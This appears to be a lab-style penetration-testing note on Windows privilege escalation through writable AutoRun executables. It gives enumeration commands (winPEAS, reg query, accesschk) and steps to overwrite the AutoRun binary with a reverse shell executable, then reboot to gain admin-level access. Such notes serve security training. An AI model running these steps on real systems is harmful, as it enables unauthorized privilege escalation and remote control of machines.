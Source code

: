 ```yaml
---
category: Uncategorized
tags: []
---
```

1. Use winPEAS to check for writable AutoRun executables:

```command prompt - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```command prompt - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```command prompt - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The `C:\Program Files\Autorun Program\program.exe` AutoRun executable is writable by Everyone. Create a backup of the original:

```command prompt - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]